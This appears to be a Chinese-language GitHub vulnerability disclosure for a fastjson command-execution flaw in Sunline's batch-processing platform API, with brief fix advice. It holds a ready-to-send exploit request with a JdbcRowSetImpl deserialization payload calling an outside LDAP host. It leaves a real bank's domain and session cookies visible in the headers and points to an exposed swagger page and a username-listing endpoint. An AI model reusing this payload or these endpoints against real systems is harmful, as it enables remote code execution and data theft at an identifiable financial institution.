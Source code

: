 # sunline

长亮sunline跑批平台接口存在fastjson命令执行漏洞

漏洞地址：

https://xxxxxxx/loader/api/uiAuth/login

https://xxxxxxx/loader/api/uiAuth/reset-password-sendmail
         
漏洞描述：长亮sunline跑批平台接口存在fastjson命令执行漏洞

漏洞详情：

1、接口存在fastjson命令执行漏洞

![image](https://github.com/ranhn/Sunline/assets/107679328/2a018bf1-faf5-4fef-84a0-e16bc44661d5)

POST /loader/api/uiAuth/reset-password-sendmail HTTP/1.1

Host: xxxxxx.com.ph

Cookie: acw_tc=0bc1a14316933660392643949e455a577eede41c8a82de5b661a2f4841446e; 

JSESSIONID=D34E1ED55B1F03E9068D984A58F487D8

User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/116.0

Accept: /

Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2

Accept-Encoding: gzip, deflate

Referer: https://bk-assistant.ownbank.com.ph/

Content-Type: application/json

If-Modified-Since: 0

Content-Length: 129

Origin: https://bk-assistant.ownbank.com.ph

Sec-Fetch-Dest: empty

Sec-Fetch-Mode: cors

Sec-Fetch-Site: same-origin

Pragma: no-cache

Cache-Control: no-cache

Te: trailers

Connection: close

{“@type”:“com.sun.rowset.JdbcRowSetImpl”,“dataSourceName”:“ldap://r0mkls.dnslog.cn”, “autoCommit”:true}
![image](https://github.com/ranhn/Sunline/assets/107679328/f0994785-72c3-4d76-ba7b-e17b6ab1a77a)
2、同时存在接口文档暴露问题

https://xxxxxxx.com.ph/swagger-ui.html

![image](https://github.com/ranhn/Sunline/assets/107679328/4309d4a0-e3de-49c9-baea-c0498f59ca56)

https://xxxxxxx.com.ph/loader/syncResourcesNotify/users 返回用户名

![image](https://github.com/ranhn/Sunline/assets/107679328/44cfc0a8-91cd-479a-aecc-1ed2b51d16e8)

漏洞版本：版本未知（没有版本概念）

修复建议：

1、升级到最新版本。

2、接口敏感信息文档做鉴权。
